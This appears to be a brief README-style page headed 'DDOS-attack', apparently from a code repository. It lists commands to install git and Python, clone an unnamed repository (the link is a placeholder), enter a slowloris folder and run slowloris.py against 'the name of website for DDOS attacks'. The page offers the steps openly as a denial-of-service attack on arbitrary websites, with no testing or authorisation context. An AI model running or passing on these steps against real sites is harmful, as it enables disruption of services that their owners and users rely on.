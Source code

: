 # DDOS-attack
pkg install git

pkg install python

git clone (enter the github link0

cd slowloris

python slowloris.py (enter the name of website for DDOS attacks)
